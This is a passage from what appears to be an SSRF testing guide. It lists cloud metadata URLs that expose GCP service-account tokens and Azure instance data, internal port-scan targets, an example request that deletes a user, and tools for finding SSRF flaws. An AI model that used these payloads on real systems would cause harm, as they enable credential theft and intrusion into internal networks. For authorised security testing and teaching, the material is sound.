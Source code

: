 #### GCP:

```http
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

#### Azure:

```http
http://169.254.169.254/metadata/instance?api-version=2021-01-01
```

Use proper headers if required (e.g., `Metadata-Flavor: Google`).

---

### 6️⃣ **Scan Internal Network**

Use SSRF to perform internal port scanning:

```http
http://127.0.0.1:22
http://127.0.0.1:3306
http://10.0.0.5:8080
```

Measure response time or status codes to infer open ports.

---

### 7️⃣ **Trigger Internal Actions**

If SSRF allows POST requests, you can:

* Trigger jobs
* Delete data
* Modify configurations

Example:

```http
POST /internal/deleteUser?id=123
```

---

## 🧰 Tools for SSRF Testing

* **curl** : Manual testing
* **Burp Suite** : Intercept and modify requests
* **ffuf** : Fuzzing parameters
* **Param Miner** : Discover hidden SSRF vectors
* **Interactsh / dnslog.cn** : Blind SSRF detection

---

## 🔐 Safe Testing Tips
